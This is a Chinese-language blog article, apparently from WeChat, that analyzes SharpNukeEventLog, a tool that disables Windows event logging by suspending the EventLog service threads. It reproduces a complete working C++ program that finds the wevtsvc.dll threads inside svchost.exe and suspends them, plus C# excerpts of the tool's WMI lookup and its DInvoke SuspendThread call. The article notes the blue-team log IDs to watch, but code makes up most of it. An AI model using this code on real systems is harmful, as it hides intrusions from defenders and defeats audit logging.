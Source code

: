 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/jXnNwCMt1B3q_5mCwiIIIw)

Github 上了一个名叫 SharpNukeEventLog 的项目，目的是在执行敏感操作时不会产生 windows 日志记录。地址为：

https://github.com/jfmaes/SharpNukeEventLog 本文将从原理的角度简析该工具的原理。

我们平时在进行 windows 的操作时都会产生对应的 windows 日志记录，以添加用户为例，

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08UnQu6Puibf9lloxkpPmTo2TBeVWdjVI7YicrzvxO274gjJS3TyL9z8Y5zHibSiax50WYaFy8aEibibCF1A/640?wx_fmt=png)

我们会在安全目录下产生 6 条事件记录，作为蓝队可以着重关注 4720、4722、4724 这三条日志记录。即使使用一些方法清除日志，也会留下 id 为 1102 的清除日志的记录。

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08UnQu6Puibf9lloxkpPmTo2TAOYKkXEU2tkjfepngfibwibA0mviaPNKyFRqj3JZYqB7B7vWcdbxpeqqg/640?wx_fmt=png)

而该工具则可以免除该问题，在 windows 中日志记录是依靠服务来进行生效的，其服务名称为：Windows Event Log

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08UnQu6Puibf9lloxkpPmTo2TYodH6RaBfwlUpdg8hvEiaaP3RiazGNKQVlUFDfG5ZfhWyeVK3JylFpCg/640?wx_fmt=png)

进程名为 svchost.exe，我们可以用下面的命令来具体查看是那个进程负责该服务：

```
Get-WmiObject -Class win32_service -Filter "name = 'eventlog'" | select -exp ProcessId
```

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08UnQu6Puibf9lloxkpPmTo2T7MJSYbac0oI36nUicCJjiaMSEaUxbOUlIf2ktgtZtHA0gNicojMyj4NjA/640?wx_fmt=png)

那我们的 2224 进程就是负责日志记录的进程，使用 process hacker 可以清除的看到其服务名及 address（wevtsvc.dll）

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08UnQu6Puibf9lloxkpPmTo2Twc9iamVG6mPo8CcMY5sv769fk1cZaOMN03k9nccuujoJIiaiaMCXvnpPA/640?wx_fmt=png)

那我们就可以遍历服务，查找进程，查找线程，查找地址，挂起线程，核心 api 为

```
DWORD SuspendThread(
  HANDLE hThread
);
```

流程如下：

1、使用 OpenSCManagerA 打开服务管理器

2、使用 OpenServiceA 打开 eventlog 服务

3、使用 QueryServiceStatusEx 查找进程 ID

4、遍历进程中的内容，得到线程内容，使用 SuspendThread 挂起指定线程。

C++ 版 demo，代码来自 ired.team

```
#include <iostream>
#include <Windows.h>
#include <Psapi.h>
#include <TlHelp32.h>
#include <dbghelp.h>
#include <winternl.h>

#pragma comment(lib, "DbgHelp")

using myNtQueryInformationThread = NTSTATUS(NTAPI*)(
  IN HANDLE          ThreadHandle,
  IN THREADINFOCLASS ThreadInformationClass,
  OUT PVOID          ThreadInformation,
  IN ULONG           ThreadInformationLength,
  OUT PULONG         ReturnLength
  );

int main()
{
  HANDLE serviceProcessHandle;
  HANDLE snapshotHandle;
  HANDLE threadHandle;

  HMODULE modules[256] = {};
  SIZE_T modulesSize = sizeof(modules);
  DWORD modulesSizeNeeded = 0;
  DWORD moduleNameSize = 0;
  SIZE_T modulesCount = 0;
  WCHAR remoteModuleName[128] = {};
  HMODULE serviceModule = NULL;
  MODULEINFO serviceModuleInfo = {};
  DWORD_PTR threadStartAddress = 0;
  DWORD bytesNeeded = 0;

  myNtQueryInformationThread NtQueryInformationThread = (myNtQueryInformationThread)(GetProcAddress(GetModuleHandleA("ntdll"), "NtQueryInformationThread"));

  THREADENTRY32 threadEntry;
  threadEntry.dwSize = sizeof(THREADENTRY32);

  SC_HANDLE sc = OpenSCManagerA(".", NULL, MAXIMUM_ALLOWED);
  SC_HANDLE service = OpenServiceA(sc, "EventLog", MAXIMUM_ALLOWED);

  SERVICE_STATUS_PROCESS serviceStatusProcess = {};

  # Get PID of svchost.exe that hosts EventLog service
  QueryServiceStatusEx(service, SC_STATUS_PROCESS_INFO, (LPBYTE)&serviceStatusProcess, sizeof(serviceStatusProcess), &bytesNeeded);
  DWORD servicePID = serviceStatusProcess.dwProcessId;

  # Open handle to the svchost.exe
  serviceProcessHandle = OpenProcess(MAXIMUM_ALLOWED, FALSE, servicePID);
  snapshotHandle = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);

  # Get a list of modules loaded by svchost.exe
  EnumProcessModules(serviceProcessHandle, modules, modulesSize, &modulesSizeNeeded);
  modulesCount = modulesSizeNeeded / sizeof(HMODULE);
  for (size_t i = 0; i < modulesCount; i++)
  {
    serviceModule = modules[i];

    # Get loaded module's name
    GetModuleBaseName(serviceProcessHandle, serviceModule, remoteModuleName, sizeof(remoteModuleName));

    if (wcscmp(remoteModuleName, L"wevtsvc.dll") == 0)
    {
      printf("Windows EventLog module %S at %p\n\n", remoteModuleName, serviceModule);
      GetModuleInformation(serviceProcessHandle, serviceModule, &serviceModuleInfo, sizeof(MODULEINFO));
    }
  }

  # Enumerate threads
  Thread32First(snapshotHandle, &threadEntry);
  while (Thread32Next(snapshotHandle, &threadEntry))
  {
    if (threadEntry.th32OwnerProcessID == servicePID)
    {
      threadHandle = OpenThread(MAXIMUM_ALLOWED, FALSE, threadEntry.th32ThreadID);
      NtQueryInformationThread(threadHandle, (THREADINFOCLASS)0x9, &threadStartAddress, sizeof(DWORD_PTR), NULL);
      
      # Check if thread's start address is inside wevtsvc.dll memory range
      if (threadStartAddress >= (DWORD_PTR)serviceModuleInfo.lpBaseOfDll && threadStartAddress <= (DWORD_PTR)serviceModuleInfo.lpBaseOfDll + serviceModuleInfo.SizeOfImage)
{
        printf("Suspending EventLog thread %d with start address %p\n", threadEntry.th32ThreadID, threadStartAddress);

        # Suspend EventLog service thread
        SuspendThread(threadHandle);
        Sleep(2000);
      }
    }
  }

  return 0;
}
```

现在让我们回到 SharpNukeEventLog，其 Program.cs 为核心代码，STRUCTS.cs 为定义的结构体，而 win32 api 的调用利用的是 DInvoke，与 C++ 版本不同的是，其查找进程的方法为直接调用的 WMI，这也是 C# 的优点，核心函数如下：

```
public static int GetEventLogPid()
        {
            int pid = 0;
            ManagementObjectSearcher mgmtObjSearcher = new ManagementObjectSearcher("SELECT ProcessId FROM Win32_service WHERE name = \'eventlog\'");
            ManagementObjectCollection eventlogCollectors = mgmtObjSearcher.Get();
            //long live IEnumerables...
            if (eventlogCollectors.Count != 1)
            {
                throw new Exception("there should only be one eventlog collector on the system");
            }
            foreach (ManagementObject eventlogcollector in eventlogCollectors)
            {
                object o = eventlogcollector["ProcessId"];
                pid = Convert.ToInt32(o);
                //pid = Convert.ToUInt32((uint)eventlogcollector["ProcessId"]);
            }
            Console.WriteLine("target found, nuke launched on the eventlog threads of PID: " + pid);
            return pid;
        }
```

后面的就没什么的不同了，最后使用 SuspendThread 挂起线程。

```
Generic.DynamicAPIInvoke("kernel32.dll", "SuspendThread", typeof(DELEGATES.SuspendThread), ref suspendParams, true);
```

demo：

![](https://mmbiz.qpic.cn/mmbiz_gif/mj7qfictF08UnQu6Puibf9lloxkpPmTo2TdVSH217jfocXdEpIcibkSNtgkV9TGamqRbjpUHBBQrtUHMicps37JKaw/640?wx_fmt=gif)

参考文章：

https://www.ired.team/offensive-security/defense-evasion/disabling-windows-event-logs-by-suspending-eventlog-service-threads

https://github.com/jfmaes/SharpNukeEventLog

https://artofpwn.com/phant0m-killing-windows-event-log.html

https://zhuanlan.kanxue.com/article-10729.htm

https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-suspendthread

     ▼

更多精彩推荐，请关注我们

▼

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08XZjHeWkA6jN4ScHYyWRlpHPPgib1gYwMYGnDWRCQLbibiabBTc7Nch96m7jwN4PO4178phshVicWjiaeA/640?wx_fmt=png)